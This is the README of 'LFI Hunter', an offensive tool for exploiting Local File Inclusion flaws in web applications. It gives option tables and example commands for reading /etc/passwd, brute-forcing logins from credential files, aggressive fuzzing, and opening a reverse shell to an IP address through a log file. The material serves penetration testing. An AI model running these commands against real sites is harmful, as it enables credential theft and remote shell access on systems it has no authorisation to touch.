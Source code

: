 #  LFI Hunter

## Overview

**LFI Hunter** is a command-line tool for testing and exploiting Local File Inclusion (LFI) vulnerabilities in web applications. This tool is designed to assist ethical hackers and security researchers in assessing web application security by exploiting file inclusion vulnerabilities in a controlled environment.

## Features

- **Command-line Interface**: User-friendly interface with various options.
- **Authentication Support**: Test areas requiring login credentials.
- **File Reading**: Attempt to read sensitive files from the target machine.
- **Parameter Fuzzing**: Test for injection vulnerabilities.
- **Reverse Shell Setup**: Establish a reverse shell connection for deeper access.

## Installation

To use LFI Hunter, clone the repository from GitHub:

```bash
git clone https://github.com/jac11/LFI_Hunter.git
cd LFI_Hunter
```

## Usage

The basic syntax for running LFI Hunter is:

```bash
LFI_Hunter [OPTIONS]
```

### Options

| Option                  | Description                                                                                     |
|-------------------------|-------------------------------------------------------------------------------------------------|
| `-h`, `--help`          | Show help message and exit.                                                                    |
| `--man`                 | Show the man page.                                                                             |
| `-UV`, `--Vulnurl`      | Target URL for the vulnerable web application.                                                 |
| `--auth`                | Enable authentication mode.                                                                    |
| `-F`, `--filelist`      | Read from an LFI wordlist file.                                                                |
| `-C`, `--Cookie`        | Provide the login session cookie.                                                              |
| `-B`, `--base64`        | Enable decoding of base64-filtered PHP code.                                                   |
| `-R`, `--read`          | Specify a file to read from the target machine.                                                |
| `-UF`, `--UserForm`     | Specify the HTML login form username field.                                                    |
| `-PF`, `--PassForm`     | Specify the HTML login form password field.                                                    |
| `-P`, `--password`      | Specify a password for login attempts.                                                         |
| `-p`, `--readpass`      | Read a password from a file.                                                                   |
| `-LU`, `--loginurl`     | Provide the login URL for authentication mode.                                                 |
| `-U`, `--user`          | Specify a username for login attempts.                                                         |
| `-u`, `--readuser`      | Read a username from a specified file.                                                         |
| `-A`, `--Aggressiv`     | Enable aggressive mode to increase request speed.                                              |
| `-S`, `--shell`         | Set up a reverse shell connection to a specified IP address.                                   |
| `--port PORT`           | Set the port for netcat or reverse shell connections.                                          |
| `-Z`, `--fuzzing`       | Enable brute-force or fuzzing mode for parameter testing.                                      |
| `--config FILE`         | Use a configuration file with predefined options.                                              |


### Key Options for Authentication

1. **Enabling Authentication**:
   - `--auth`: Enables authentication mode, allowing the tool to access restricted areas of the application that require user login.

2. **Session Cookies**:
   - `-C, --Cookie`: Specify a file containing the session cookie necessary for maintaining an authenticated session.
   - **Example**:
     ```bash
     LFI_Hunter -UV http://example.com/vulnerable_path?file= -C session_cookie.txt --auth
     ```

3. **Login URL**:
   - `-LU, --loginurl`: Specifies the URL of the login page.
   - **Example**:
     ```bash
     LFI_Hunter -UV http://example.com/vulnerable_path?file= -C session_cookie.txt --auth -LU http://example.com/login
     ```

4. **Username and Password Fields**:
   - `-UF, --UserForm`: Specify the HTML form field name for the username input.
   - `-PF, --PassForm`: Specify the HTML form field name for the password input.
   - **Example**:
     ```bash
     LFI_Hunter -LU http://example.com/login -UV http://example.com/vulnerable_path?file= -C session_cookie.txt --auth -UF username_field -PF password_field
     ```

5. **Direct Username and Password Input**:
   - `-U, --user`: Specify a username directly for login attempts.
   - `-P, --password`: Specify a password directly for login attempts.
   - **Example**:
     ```bash
     LFI_Hunter -LU http://example.com/login -UV http://example.com/vulnerable_path?file= -C session_cookie.txt --auth -U admin -P mypassword
     ```

6. **Reading from Files**:
   - Users can read usernames and passwords from files using `-u, --readuser` and `-p, --readpass`, which is useful for testing multiple credentials in an automated fashion.

### Benefits of Using Aggressive Mode

Using LFI Hunter's aggressive mode in authentication offers several advantages:

1. **Increased Request Speed**:
   - Sends a higher volume of requests quickly, useful when testing multiple file inclusion points.

2. **Enhanced Payload Variation**:
   - Tests various payloads rapidly to identify vulnerabilities that may not be apparent with standard methods.

3. **Response Length Comparison**:
   - Analyzes response lengths to detect successful file inclusions, indicating different data has been read from the server.

4. **Efficiency in Controlled Environments**:
   - Ideal for environments where extensive testing is permitted without risking disruption to production systems.

5. **Automation of Testing**:
   - Suitable for automated scripts and CI/CD pipelines, providing quick feedback on security vulnerabilities.

6. **Comprehensive Vulnerability Detection**:
   - Uncovers hidden vulnerabilities that might be missed during slower testing approaches.

### Example Usage of Aggressive Mode

To utilize aggressive mode while handling authentication, you might run a command like:

```bash
LFI_Hunter -UV http://example.com/vulnerable_path?file= -C session_cookie.txt --auth -A -LU http://example.com/login.php -U admin -P password
```

In this command:
- `-A` activates aggressive mode.
- `--auth` allows interaction with authenticated sections of the application.

### Examples

1. **Basic URL Scan with Authentication**:
   ```bash
   LFI_Hunter -UV http://example.com/vulnerable_path?file= -C session_cookie.txt --auth -A -LU http://example.com/login.php -U admin -P password
   ```

2. **Use Base64 Decoding**:
   ```bash
   LFI_Hunter -UV http://example.com/vulnerable_path?file= -C session_cookie.txt -B -Z
   ```

3. **Read /etc/passwd File**:
   ```bash
   LFI_Hunter -UV http://example.com/vulnerable_path?file= -C session_cookie.txt -R /etc/passwd
   ```

4. **Setup Reverse Shell**:
   ```bash
   LFI_Hunter -UV http://example.com/vulnerable_path?file= -C session_cookie.txt -R /var/log/auth.log -S 192.168.0.10 --port 5555
   ```


## Files

- **config.txt**: Configuration file storing default options, useful for automation.
- **lfi_wordlist.txt**: Wordlist for common paths and filenames used in LFI testing.
- **fuzz_params.txt**: Wordlist for parameter fuzzing.

## Author

Developed by jac11. For issues or contributions, visit the [GitHub repository](https://github.com/jac11/LFI_Hunter).

## License

LFI Hunter is licensed for user use only, with no permission to modify any source code.

---

This README provides a comprehensive overview of how to install and use LFI Hunter effectively while highlighting its capabilities regarding authentication and aggressive mode operations.
